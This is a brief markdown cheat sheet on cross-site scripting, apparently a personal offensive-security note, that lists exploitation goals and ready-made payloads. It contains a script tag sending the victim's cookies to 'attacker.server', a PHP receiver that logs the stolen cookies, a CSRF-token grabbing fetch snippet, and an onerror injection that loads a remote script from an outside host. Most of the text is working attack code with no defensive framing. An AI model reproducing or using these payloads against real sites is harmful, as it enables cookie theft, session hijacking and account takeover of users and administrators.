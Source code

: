 ## `Essence`
- Within certain restrictions, driving victim to execute any JavaScript.

## `Exploit`
- obtain sensitive information
  - cookie
```
<script>newImage().src="http://attacker.server/get.php?cookie="+document.cookie;</script>

<?php
$ck =$_GET['cookie'];
error_log("$ck\n",3,"cookie.txt");
?>
```
  - token: AccessToken, CSRFToken
```
function getcsrftoken(){
fetch("/api/v1/getToken",
{
    headers: {
      'Accept': 'application/json',
      'Content-Type': 'application/json'
    },
    method: "POST",
    body: JSON.stringify({a: 1, b: 2})
})
// .then(function(res){ console.log(res) })
.then(e=>e.json())
.then(e=>console.log(window.csrfToken=e.data.csrfToken))
}

<!-- same origin-->
```
- request certain special service
  - Combine with CSRF: admin

## `Payload`
```
1" onerror=s=createElement('script');body.appendChild(s);s.src='//x0.nz/nQqS';
```

